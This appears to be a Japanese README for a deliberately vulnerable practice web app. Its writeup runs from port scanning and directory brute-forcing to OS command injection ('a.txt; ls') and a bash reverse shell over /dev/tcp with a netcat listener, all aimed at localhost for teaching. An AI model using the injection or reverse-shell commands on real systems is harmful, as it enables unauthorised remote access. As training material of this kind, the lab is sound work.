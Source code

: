 # vulnable_sample
ツールの使い方を簡単に実践するための簡単な環境．教材開発のサンプルプログラムの１つ
## 使い方
### 簡単な実行の仕方(実環境では絶対に行わないように)
```php -S localhost:8080```
## Writeup
### ポートスキャン  
```
nmap -p- localhost
> 8080/tcp closed http-proxy
```
### ディレクトリブルートフォース　　
```
dirb http://localhost /usr/share/wordlists/dirb/common.txt
> + http://localhost:8080/command (CODE:200|SIZE:434)                       
> + http://localhost:8080/robots.txt (CODE:200|SIZE:32)
```
### web調査
ブラウザでhttp://localhost:8080を開くと空ページ  
robots.txtを確認するとcommandというページがある事がわかる  
/commandにアクセスするとOpen Fileというページ  
ソースコードを見るとサイトの使い方が書いている  

### エクスプロイト
```
OSコマンドインジェクションを行える
a.txt; ls
でlsコマンドが実行できる
```
### リバースシェル  
(環境によって実行できない場合があるためその際は"Reverse Shell Cheat Sheet"などで調べるとPythonを使う方法やJavaを使う方法などさまざな方法が見つけられるので参考にしてください．)
```
# 手元のPCで実行
nc -nvlp 1234
```
```
# 対象のPCに対して
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```
---
以上の流れでサーバのIPアドレスだけからWebページが空いている事を見つけて，攻撃に繋げる一連の流れの簡単な例を試してみる事ができます

